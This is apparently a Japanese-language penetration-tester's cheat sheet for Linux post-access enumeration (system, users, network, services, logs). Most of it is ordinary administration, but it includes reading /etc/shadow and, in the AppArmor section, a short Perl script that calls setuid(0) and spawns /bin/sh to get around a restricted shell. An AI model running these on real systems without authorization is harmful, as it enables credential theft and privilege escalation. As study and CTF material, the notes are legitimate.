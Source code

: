 # 列挙

## システム

```shell
# ディストリビューション
ls /etc/*-release
hostname
hostnamectl
lscpu

cat /etc/passwd
cat /etc/group
cat /etc/shadow

ls -lh /var/mail/

ls -lh /usr/bin/
ls -lh /sbin/

# インストールされている全てのパッケージ
rpm -qa
dpkg -l

apt list --upgradeable
```

## ユーザー

```shell
# ログインしているユーザー
who
# 誰がログインしていて何をしているか
w
# 最後にログインしたユーザー
last

# ユーザーとグループID
id

sudo -l
```

## ネットワーク

```shell
# IPアドレスと短縮形
ip address show
ip a s

# DNS
cat /etc/resolv.conf

# ネットワーク接続、ルーティング
# -a	リスニングソケットと非リスニングソケットの両方を表示
# -l	リスニングソケットのみ表示
# -n	IPアドレスとポート番号を解決する代わりに数値出力を表示
# -t	TCP
# -u	UDPI
# -x    unix
# -p	(要sudo)ソケットが属するプログラムのPIDと名前を表示
sudo netstat -plt
sudo netstat -atupn

ss -tulnp

# ネットワーク接続
sudo lsof -i
# 25ポート関連のみ
sudo lsof -i :25
# 特定のディレクトリ下で開かれているファイル
sudo lsof +D /path/to/directory
```

## サービス

```shell
# 実行中の全てのプロセス
ps -ef

# ASCIIアートでツリー構造を表現
ps axf

# リソース使用率なども含まれる
ps aux

# サービス一覧
systemctl list-units --type=service --state=running

ls /usr/lib/systemd/system

# 状態
systemctl status <service-name>

# 実行ファイルの情報なども確認できる
systemctl cat <service-name>

# ログ
sudo journalctl -f -u <service-name>
```

```sh
# 特定期間のログ
journalctl --since "2025-03-07 17:00:00" --until  "2025-03-07 18:00:00"

# 特定期間に変更されたファイル
find . -type f -newermt "2024-07-10 12:00" ! -newermt "2024-07-12 18:00"
```

### pspy

非特権ユーザーでもある程度、誰が何を実行しているか分かるツール。  
https://github.com/DominicBreuker/pspy

## AppArmor

パーミッションがあるはずなのにパーミッション不足でエラーになる場合、AppArmor で制限されているかもしれない。

```shell
# 現在のシェルの種類確認
think@publisher:/var/tmp$ echo $0
-ash

# シェル用のルール確認
think@publisher:/var/tmp$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

下記の形で制限を回避できる可能性がある。

```shell
echo  '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /var/tmp/test.pl
chmod +x /var/tmp/test.pl
/var/tmp/test.pl
```

また、書き込み権限があるが上書きエラーになる場合、追記のみ許可されている場合がある。  
lsattr で確認可能。

```shell
# a が表示されたら追記モード
lsattr <file>
-----a--------e----- <file>
```
